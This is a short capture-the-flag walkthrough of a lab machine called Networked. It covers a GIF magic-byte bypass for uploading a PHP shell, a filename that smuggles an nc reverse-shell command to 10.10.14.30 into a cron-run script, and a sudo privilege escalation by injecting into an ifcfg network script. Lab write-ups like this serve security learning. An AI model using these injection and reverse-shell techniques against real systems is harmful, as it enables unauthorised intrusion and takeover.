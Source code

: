 # 📳 Networked

## Enumeration

We see it has a website

We perform dirbuster

We get an archive backup

We extract it

We get source code

We see that upload.php Only supports Gif Files

and it uses magic bytes also too cross check it ( The first chr of the file)

So we add magic bytes of GIF to first line of our php shell dcript

ex-

```
GIF87a
```

or

```
GIF89a
```

We get an Apache shell

As we got into box we will now extract user.txt but we dont have permission so we will have to do lateral movement to other user which has read rights.

after going through user guly directory we found cron job which can help us to get into user guly from apache.

<figure><img src="https://miro.medium.com/v2/resize:fit:388/1*9wEse-hxxwX0XGERLRrmDg.png" alt="" height="83" width="388"><figcaption></figcaption></figure>

Meaning every 3min it runs this script

Upon analyzing the script we see $name which means name of the file

So what we can do create an empty file in the uploads folder

```
touch — ‘;nc -c bash 10.10.14.30 4321;.php’
```

After 3 minutes we will get shell as guly user and then we can extract user.txt flag.

<figure><img src="https://miro.medium.com/v2/resize:fit:542/1*yOC_tX7O_aFeXMeRLSr8LA.png" alt="" height="200" width="542"><figcaption></figcaption></figure>

Now we have to go-ahead for root flag and we will start with privilege escalation.

As i always do sudo -l & -i which is easy to get in root tricks.

Gully user can run sudo command for changename.sh

<figure><img src="https://miro.medium.com/v2/resize:fit:599/1*8P8DW13esaUr8s0IkaMEYw.png" alt="" height="217" width="599"><figcaption></figcaption></figure>

So we check changename.sh and we just have read right for this file after doing google on ifcfg network we found trick to get in.

{% embed url="https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f" %}

<figure><img src="https://miro.medium.com/v2/resize:fit:672/1*AlxfAv82ATZ2F1ZI8CGlAg.png" alt="" height="354" width="672"><figcaption></figcaption></figure>

So we will run the file with sudo and provide junk data as below.

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*eiiDlU5_YTez3m_wLSs-iA.png" alt="" height="477" width="700"><figcaption></figcaption></figure>

**This is imp !!**

interface BROWSER\_ONLY:\
ram **bash**

Here bash plays a very imp role to get in as root user and we root flag as above
